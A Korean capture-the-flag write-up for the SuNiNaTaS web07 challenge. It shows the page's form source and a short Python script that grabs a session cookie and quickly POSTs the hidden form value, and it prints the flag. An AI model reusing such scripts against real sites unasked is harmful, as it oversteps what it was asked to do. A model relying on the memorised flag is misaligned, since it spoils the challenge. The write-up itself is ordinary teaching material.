


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**




# **Write-Up**

내려가다 보면 YES라는 버튼이 보이고, 클릭하면 너무 느리다고 한다.



스크립트로 짜야하나보다. 필요한건 다음과 같다.

1. 세션 값

2. request method와 action의 주소

3. 보내는 데이터

request method와 action의 주소 그리고 보낼 데이터는 소스에 나와 있다.

```html
... 생략 ...
    <form method="post" action="./web07_1.asp" name="frm">
        <div align="center">
            <input type="button" name="main_btn" value="main" style="width: 60" onclick="location.href = '/'">&nbsp&nbsp&nbsp
            <input type="button" name="main_btn" value="Back" style="width: 60" onclick="history.back()">
        </div>
        <div align="center">
            <input type="hidden" name="web07" value="Do U Like girls?">
        </div>
... 생략 ...
```

다음과 같은 스크립트로 세션 값을 얻고 FLAG를 획득하자.

```python
import urllib
import urllib.request

url     = 'http://suninatas.com/challenge/web07/web07.asp'
request = urllib.request.Request(url)
response= urllib.request.urlopen(request)
cookie  = response.info().get_all('Set-Cookie')[0]

url     = 'http://suninatas.com/challenge/web07/web07_1.asp'
data    = urllib.parse.urlencode({'web07':'Do U Like girls?'}).encode()
request = urllib.request.Request(url, data = data)
request.add_header('Cookie', cookie)
response= urllib.request.urlopen(request)

print(response.read().decode())

[Output]
<script language="javascript">
    alert("Congratulation!");
</script>
Authkey : G0Od d@y
```


# **FLAG**

**G0Od d@y**